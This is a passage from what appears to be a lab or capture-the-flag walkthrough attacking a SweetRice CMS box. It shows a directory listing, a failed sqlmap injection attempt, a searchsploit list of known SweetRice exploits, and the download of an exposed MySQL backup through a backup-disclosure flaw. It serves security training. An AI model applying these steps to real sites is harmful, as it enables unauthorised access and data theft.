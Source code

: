 		/content/as/lib/comment.php
		/content/as/lib/ad.php
		/content/as/lib/information.php
		/content/as/lib/license.php
		/content/as/lib/install.php
		/content/as/lib/update.php
		/content/as/lib/theme.php
		/content/as/lib/head.php
		/content/as/lib/function.php
		/content/as/lib/foot.php
		/content/as/lib/forgot_password.php
		/content/as/lib/plugin.php
		/content/as/lib/attachment.php
		/content/as/lib/htaccess.php
		/content/as/lib/tinymce.php
		/content/as/lib/timezone.php
		/content/as/lib/site_list.php
		/content/as/lib/media_center.php
		
		
		--------------------------------
		```
5. Test SQL Injection
	1. Seraching for `SweetRice exploit` finds https://www.netsparker.com/web-applications-advisories/ns-17-005-blind-sql-injection-vulnerability-in-sweetrice-1-5-1/
	2. `sqlmap -u '10.10.244.128/content/as/?type=post&mode=insert'` fails
6. `searchsploit sweetrice`
	```
		---------------------------------------------------------------------- ----------------------------------------
		 Exploit Title                                                        |  Path
		                                                                      | (/usr/share/exploitdb/)
		---------------------------------------------------------------------- ----------------------------------------
		SweetRice 0.5.3 - Remote File Inclusion                               | exploits/php/webapps/10246.txt
		SweetRice 0.6.7 - Multiple Vulnerabilities                            | exploits/php/webapps/15413.txt
		SweetRice 1.5.1 - Arbitrary File Download                             | exploits/php/webapps/40698.py
		SweetRice 1.5.1 - Arbitrary File Upload                               | exploits/php/webapps/40716.py
		SweetRice 1.5.1 - Backup Disclosure                                   | exploits/php/webapps/40718.txt
		SweetRice 1.5.1 - Cross-Site Request Forgery                          | exploits/php/webapps/40692.html
		SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution     | exploits/php/webapps/40700.html
		SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                 | exploits/php/webapps/14184.txt
		---------------------------------------------------------------------- ----------------------------------------
		Shellcodes: No Result
	```
7. Backup Disclosure: "You can access to all mysql backup and download them from this directory. `http://localhost/inc/mysql_backup`." Going to `http://10.10.244.128/content/inc/mysql_backup/` allows the `mysql_bakup_20191129023059-1.5.1.sql` file to be downloaded. SQL Backup File:
	```
	<?php return array (
	  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
	  1 => 'CREATE TABLE `%--%_attachment` (
	  `id` int(10) NOT NULL AUTO_INCREMENT,
	  `post_id` int(10) NOT NULL,
	  `file_name` varchar(255) NOT NULL,